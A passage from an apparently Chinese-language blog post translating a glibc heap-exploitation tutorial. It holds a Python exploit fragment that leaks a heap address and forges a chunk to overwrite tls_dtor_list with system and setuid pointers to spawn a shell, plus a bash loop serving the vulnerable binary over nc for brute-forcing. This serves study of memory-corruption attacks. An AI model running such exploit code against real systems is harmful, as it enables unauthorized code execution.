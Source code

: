 ``` python
 heap_addr_tup = struct.unpack("<I", laddress)
 heap_addr = heap_addr_tup[0]
 print "** Leaked heap addresses : [0x%x] **" %(heap_addr)
 heap_base_addr = heap_addr - 0x10
 fd = heap_base_addr + 0x410
 bk = fd
 bk_nextsize = heap_base_addr + 0x618
 mp = heap_base_addr + 0x18
 nxt = heap_base_addr + 0x428

 print "** Constructing fake chunk to overwrite tls_dtor_list**"
 fake_chunk = conv(fd)
 fake_chunk += conv(bk)
 fake_chunk += conv(fd_nextsize)
 fake_chunk += conv(bk_nextsize)
 fake_chunk += conv(system)
 fake_chunk += conv(system_arg)
 fake_chunk += "A" * 484
 fake_chunk += conv(size)
 fake_chunk += conv(setuid)
 fake_chunk += conv(setuid_arg)
 fake_chunk += conv(mp)
 fake_chunk += conv(nxt)
 print "** Successful tls_dtor_list overwrite gives us shell!!**"
 send(fake_chunk)

 try: 
  con.interact()
 except: 
  exit(0)
```
因为中间有一部分需要暴力破，当程序是运行在服务器端口上时，我们可以写下列这个bash脚本来循环进行直到get shell：
``` bash
#vuln.sh
#!/bin/sh
nc_process_id=$(pidof nc)
while :
do
 if [[ -z $nc_process_id ]]; then
 echo "(Re)starting nc..."
 nc -l -p 1234 -c "./vuln sploitfun"
 else
 echo "nc is running..."
 fi
done
```

2017.9.25：目前只是翻译完了一遍，里面的一些套路，的确值得我再多去回味，之后再结合相关练习基础上会进行malloc和free的源码阅读，wish me good luck。7
7

7